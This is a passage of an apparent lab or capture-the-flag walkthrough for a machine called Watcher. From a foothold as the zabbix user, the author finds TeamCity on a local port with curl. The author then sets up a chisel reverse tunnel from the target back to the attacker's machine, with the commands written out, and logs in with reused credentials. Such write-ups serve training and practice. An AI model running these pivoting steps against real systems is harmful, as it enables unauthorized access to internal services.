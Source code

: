 Based on the results there are a few more ports (services) running on the machine than initially we thought. 

Doing a simple `curl` request on port `8111`, we find out that it is running `TeamCity`. Note: We could have found that using another approach with the help of `pspy`, where we will see that the `root` user is responsible for `TeamCity`.

```bash
zabbix@watcher:/usr/share/zabbix$ curl http://127.0.0.1:8111 -I -s

HTTP/1.1 401 
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
X-Content-Type-Options: nosniff
Content-Type: text/plain;charset=UTF-8
Content-Length: 66
Date: Fri, 02 Aug 2024 07:47:02 GMT
```

Subsequently, with that information in hand, we are going to utilize `chisel` to establish a local port forward. We need to transfer the binary onto the machine and start the binary on our machine in `server` mode.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ ./chisel server --reverse --port 8081                                                                    
2024/08/02 10:50:23 server: Reverse tunnelling enabled
2024/08/02 10:50:23 server: Fingerprint LZjBgJdNsNtcKcbxvP6OrerGAywczmgNd3o1lIFkiaI=
2024/08/02 10:50:23 server: Listening on http://0.0.0.0:8081
2024/08/02 10:50:59 server: session#1: tun: proxy#R:8111=>8111: Listening
```

On the target machine, we initiate the `client` mode and connect to the server (ourselves):

```bash
zabbix@watcher:/usr/share/zabbix$ ./chisel client IP:3:8081 R:8111:127.0.0.1:8111

2024/08/02 07:50:59 client: Connecting to ws://IP:8081
2024/08/02 07:50:59 client: Connected (Latency 40.177246ms)
```

Having established the port forwarding, we can proceed to visit the application on port `8111` via our browser, and subsequently, log in using `Frank`'s credentials. 

![Watcher-51.png](assets/Watcher-51.png)
